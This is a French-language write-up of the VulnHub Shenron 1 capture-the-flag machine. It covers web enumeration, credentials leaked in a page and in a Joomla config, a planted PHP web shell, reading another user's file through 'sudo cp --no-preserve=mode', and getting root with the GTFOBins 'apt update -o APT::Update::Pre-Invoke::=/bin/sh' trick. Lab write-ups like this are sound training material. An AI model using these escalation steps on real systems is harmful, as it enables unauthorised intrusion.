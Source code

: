```yaml
---
title: "Solution du CTF Shenron 1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[shenron: 1](https://vulnhub.com/entry/shenron-1,630/) fait partie d'une série de CTFs proposée sur VulnHub et créé par [@shubhammandloi](https://twitter.com/shubhammandloi).

```
Nmap scan report for 192.168.56.60
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0e22600af7d478f64208d76a6bb0b162 (RSA)
|   256 b30ccd0a67c3abd22327021fb2fb9112 (ECDSA)
|_  256 2973e0f26df6fbde4c6fb27a1969f582 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu
```

## Comme une lettre à la poste

Le site web fournit directement la page par défaut d'Apache donc on attaque directement avec l'énumération web.

Je trouve déjà des identifiants dans un dossier `test` :

```html
$ curl http://192.168.56.60/test/password
<!DOCTYPE html>
<html>
<head>
        <title>PASSWORD</title>
</head>
<body>
        <h1>LOTS OF INFORMATION ARE HERE ;-)</h1>


        <h1> You Are Very Near .......</h4>

        <!--
         "All The Best"
         Credentials:- "admin:3iqtzi4RhkWANcu@$pa$$"

         --> 
</body>
</html>
```

Et deuxièmement un Joomla installé à l'adresse `/joomla` (tout simplement)

Il faut se rendre sur `/joomla/administrator` pour accèder au panel d'administration.

On ne croise pas du Joomla très régulièrement sur les CTFs. Heureusement j'ai déjà eu le cas sur le CTF [Rosee de Wizard Labs](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Rosee%20de%20Wizard%20Labs.md#its-all-about-osint-you-fool) par conséquent je me suivre le même cheminement pour éditer le template par défaut et ajouter un fichier PHP qui me donnera mon shell web.

Transformé à peine une minute plus tard en beau reverse shell avec PTY, j'en profite pour regarder dans `/etc/passwd` :

```
jenny:x:1001:1001::/home/jenny:/bin/bash
shenron:x:1002:1002::/home/shenron:/bin/bash
```

## Jenny! Jenny! Jenny!

Quand je recherche les fichier de jenny je ne trouve que son dossier personnel et le fichier `/var/www/html/joomla/htaccess.txt`. Ce dernier ne contient rien d'intéressant (juste des règles d'URL rewriting).

Pour shenron il y a un fichier sans doute intéressant mais non lisible pour le moment :

`-rwx------ 1 shenron shenron 43 Dec 13  2020 /var/opt/password.txt`

Dans le fichier de configuration de Joomla je trouve des infos prometteuses :

```php
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'jenny';
        public $password = 'Mypa$$wordi$notharD@123';
        public $db = 'joomla_db';
        public $dbprefix = 'sotv8_';
        public $live_site = '';
        public $secret = '3xAUrgQhKGZjsund';
```

Je zappe directement l'étape MySQL et j'utilise les identifiants qui marchent pour un `su jenny`.

De là je remarque que je peux exécuter une commande en tant que shenron :

```bash
jenny@shenron:~$ sudo -l
Matching Defaults entries for jenny on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on shenron:
    (shenron) NOPASSWD: /usr/bin/cp
```

Je ne peux pas exploiter la situation pour récupérer le fichier password :

```bash
jenny@shenron:~$ sudo -u shenron /usr/bin/cp /var/opt/password.txt /tmp/
jenny@shenron:~$ cat /tmp/password.txt 
cat: /tmp/password.txt: Permission denied
jenny@shenron:~$ ls -al /tmp/password.txt
-rwx------ 1 shenron shenron 43 Nov 17 21:23 /tmp/password.txt
```

On peut passer outre en indiquant de ne pas préserver les permissions du fichier :

```bash
jenny@shenron:~$ sudo -u shenron /usr/bin/cp --no-preserve=mode /var/opt/password.txt /tmp/password2.txt
jenny@shenron:~$ ls -al /tmp/password2.txt 
-rw-rw-r-- 1 shenron shenron 43 Nov 17 21:26 /tmp/password2.txt
jenny@shenron:~$ cat /tmp/password2.txt
shenron : YoUkNowMyPaSsWoRdIsToStRoNgDeAr
```

Depuis l'utilisateur shenron je peux obtenir le premier flag :

```bash
shenron@shenron:~$ cat local.txt 
098bf43cc909e1f89bb4c910bd31e1d4
```

## Say cAPTain, say wot

Let's go pour un GTFObins ?

```bash
shenron@shenron:~$ sudo -l
[sudo] password for shenron: 
Matching Defaults entries for shenron on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shenron may run the following commands on shenron:
    (ALL : ALL) /usr/bin/apt
```

GTFObins a [plusieurs astuces pour apt](https://gtfobins.github.io/gtfobins/apt/) mais certaines semblent nécessiter une connexion à Internet et la VM est configurée en host only. La dernière fonctionne correctement ici : 

```bash
shenron@shenron:~$ sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                mmm   
 #"   " # mm    mmm   m mm    m mm   mmm   m mm            #   
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           #   
     "# #   #  #""""  #   #   #     #   #  #   #   """     #   
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         mm#mm 
                                                               
Your Root Flag Is Here :- aa087b2d466cd593622798c8e972bffb



If You Like This Machine Follow Me On Twitter..
Twitter Handle:-    https://twitter.com/shubhammandloi or @shubhammandloi
```

Ce fut très rapide :p
